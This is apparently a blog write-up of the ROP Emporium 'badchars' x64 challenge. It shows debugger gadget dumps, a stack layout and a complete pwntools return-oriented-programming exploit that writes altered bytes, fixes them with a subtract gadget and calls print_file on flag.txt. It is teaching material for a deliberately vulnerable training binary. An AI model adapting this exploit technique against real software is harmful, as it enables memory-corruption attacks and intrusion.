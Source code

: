 ```yaml
---
layout: page
permalink: /ROP_emporium/ROP-x64-Challenge-5
title: ROP x64 Challenge 5
status: done
type: page
published: true
comments: true
date: 2022-07-13
---
```

## Challenge 5

Now we have the challenge of dealing with bad chars in our exploit. Not all exploitable programs are so nice to just read in whatever you give it. For example if you are sending a string of text, it may end on a newline, carriage return, or null space. However, you may need these characters to do your dream exploit. 

In order to get around this problem, we have to give the program chars that are accepted then later modify them into what we want. In this exploit, we have to do basically the same thing as the last exploit, however we are unable to pass the characters 'x', 'g', 'a', or '.' and all of those are needed to write in "flag.txt". So what we are going to do is write in some known ("but arbitrary") value's into the location of the bad chars. Then we will use gadgets to modify those values into what we want.

For example, rather then writing 'a' into the binary we write 'b' then we simply subtract 1 from that memory location. 


By this point, I realized that the author of the challenge's had included an 'usefulGadgets' section in the binary (probably should have sooner), so the first thing to do is look over those gadgets and see what we have to work with.

```
pwndbg> disass usefulGadgets 
Dump of assembler code for function usefulGadgets:
   0x0000000000400628 <+0>:     xor    BYTE PTR [r15],r14b
   0x000000000040062b <+3>:     ret    
   0x000000000040062c <+4>:     add    BYTE PTR [r15],r14b
   0x000000000040062f <+7>:     ret    
   0x0000000000400630 <+8>:     sub    BYTE PTR [r15],r14b
   0x0000000000400633 <+11>:    ret    
   0x0000000000400634 <+12>:    mov    QWORD PTR [r13+0x0],r12
   0x0000000000400638 <+16>:    ret    
   0x0000000000400639 <+17>:    nop    DWORD PTR [rax+0x0]
End of assembler dump.
```

We can see that we probably need to control r12, r13, r14, r15, and rdi (first arg) in order to make use of these gadgets, so let's see if we have pop's for those.

```
pwndbg> ropper -- --search "pop r1?"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop r1?

[INFO] File: /root/working/badchars/badchars_64/badchars
0x000000000040069c: pop r12; pop r13; pop r14; pop r15; ret; 

pwndbg> ropper -- --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: /root/working/badchars/badchars_64/badchars
0x00000000004006a3: pop rdi; ret;
```

We can use the same write location from before to make the challenge as well.

We could use any of the xor, add, or sub modifying gadgets there (also or and and gadgets would work), but I'll use the sub gadget. So what we're going to do is place the ascii char 1 value greater in place of every bad char and then just subtract one from each of those location. So the stack will look like the following:

```
         | stack          |
         | -------------- |
32 bytes | start buffer   |
8  bytes | base pointer   | 
8  bytes | pop_r gadget   | # gadget to get values into r12 through r15
8  bytes | "flag.txt"     | # 1st 8 bytes of the string into r12
8  bytes | write loc      | # place location to write into r13
8  bytes | 1              | # the amount to subtract into r14
8  bytes | write loc + 2  | # the loc of the first char to change 'a' into r15
8  bytes | sub gadget     | # gadget to actually modify memory
8  bytes | pop_r + 3      | # pop only r15 off because the other registers can stay the same
8  bytes | write loc + 3  | # loc of 'g'
8  bytes | sub gadget     |
8  bytes | write loc + 4  | # loc of '.'
8  bytes | sub gadget     |
8  bytes | write loc + 6  | # loc of 'x'
8  bytes | sub gadget     | # now flag.txt should be in memory
8  bytes | pop_rdi gadget | # place location of the sring in rdi for 1st param
8  bytes | write loc      | 
8  bytes | print_file loc | # call function to win
8  bytes | -------------- |

```

When I wrote up this exploit, it worked perfectly until I attempted to modify the '.' character and then some of my payload wasn't getting through. After some debugging, I discovered that the location pointer for write_loc+4 actually contained the hex value of one of the bad chars. So after some experimenting, I ended up shifting the location of my write up 3 bytes which is the write_loc + 3 in my exploit. You'll also see a check for bad chars at the end of the exploit so I don't run into that problem again.


```python 
#!/usr/bin/python3

from pwn import *
# pop r12; pop r13; pop r14; pop r15; ret; 
pop_gaget       = p64(0x40069c)
pop_15  = p64(0x4006a2)

# Move [r13] r12
write_gaget     = p64(0x400634)
pop_rdi         = p64(0x4006a3)
write_loc       = 0x601028 + 3
print_file      = p64(0x400620)
back_junk       = b"B" * 20
# sub    BYTE PTR [r15],r14b
sub_gaget = p64(0x0000000000400630)

# The amount to fill the buffer
junk = b'A' * 0x20

# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xc0deba5e)*2

badChars = b"xga."

"""
Place a string (1st arg) into the location
given by the 2nd arg. Note the 2nd arg should be 
packed
"""
import binascii
def print_payload(payload):
        for i in range(0, len(payload), 8):
                continue
            # print(binascii.hexlify(payload[i:i+8]))

def string_place(write_string, write_start):
        returnPayload = b""
        toModify = []
        for i in range(0, len(write_string), 8):
                returnPayload += pop_gaget
                # r12 Value
                temp = write_string[i:i+8]
                # pad in the values so it always fills in all 8 bytes
                temp += b"\x00" * ( 8 - len(temp) )
				
                x = b""
                for j in range(len(temp)):
						
                        #the while loop will keep modifing the value untill it is a good char
                        if temp[j] in badChars:
                                        x += (int(temp[j]) + 1).to_bytes(1, 'big')
											
                                        # this should be the exact memory address of the bad character
                                        toModify.append(write_start + i + j)
                        else:
                                x += temp[j].to_bytes(1, 'big')
                temp = x
                returnPayload += temp
                #destination r13
                returnPayload += p64( write_start+ (i))
                # This is the r14 value
                returnPayload += p64(0x01)
                # This is the r15 value
                returnPayload += p64(0xdeadbeefcafebabe)
                returnPayload += write_gaget
        for i in toModify:
                temp = b""
                temp += pop_15
					
                # This is the r15 value the lopcation to store and subtract from 
                temp += p64(i)
                temp += sub_gaget
                returnPayload += temp
        return returnPayload

"""
Place the value for the first args of a function
"""
def first_arg(var):
        returnPayload = pop_rdi
        returnPayload += p64(var)
        return returnPayload



io = process('./badchars')

#Fill up the buffer and the base pointer
payload = junk + new_bp

payload += string_place(b"./flag.txt", write_loc)

# This is the vaddr of system
# First return to the location of the pop rdi
payload += first_arg(write_loc)
payload += print_file

payload += back_junk


# print("The payload is:")
# print(payload)
print("Payload size is:" + str(len(payload)))

for i in range(len(payload)):
        if payload[i] in badChars:
                print("Warning bad char detected")
                exit()

input("Hit enter to apptempt exploit")

print(io.clean(0.5).decode("utf-8"))
io.send(payload)
input("exploit sent hit enter to end")
print(io.clean(0.5).decode("utf-8"))
sleep(1)
f = open('./payload', 'wb')
f.write(payload)
f.close()

```
